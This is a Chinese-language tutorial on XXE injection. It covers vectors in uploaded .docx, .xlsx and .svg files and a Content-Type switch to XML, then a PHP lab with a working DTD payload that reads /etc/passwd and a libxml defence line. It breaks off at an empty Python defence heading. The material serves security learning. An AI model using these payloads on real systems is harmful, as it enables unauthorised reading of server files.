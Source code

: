 ##### 文件上传型

一些常见的文件包含 XML 内容：`.docx`, `.xlsx`, `.svg`, ......

- 在线查看 **Microsoft Office 全家桶**文档文件时，可以在其 XML 中植入 XXE 代码.
- 一些图片处理应用可以接收 `.svg` (矢量图片)，可以在其中插入恶意代码. **注意**，哪怕应用不显式地接收 `.svg` 类型，但是其实现的处理库还是可能支持，可以尝试强制提交查看反应.

##### 修改提交的 Content-Type

一般的 POST 请求使用的默认类型由 HTML 表单生成，比如 `application/x-www-form-urlencoded`. 有的网页对接收的类型要求不严格，允许用户提交其他类型的数据，包括 XML.

假如一个正常的 POST 请求如下:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

尝试修改为：

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

如果服务端接受修改后的请求，那么这就是一个可能的注入点。

### XXE-labs

#### php

登录抓包发现数据使用xml格式进行传输，尝试构造DTD：

```xml
<!DOCTYPE user [<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<user><username>&file;</username><password>admin</password></user>
```

发现成功返回，说明存在xxe漏洞。

防御方法:

```
libxml_disable_entity_loader(true);
```

ps.现在 `libxml` 默认关闭外部实体.

#### python

payload同理，但是环境好像有点问题，提示list index out of range,......

防御方法：
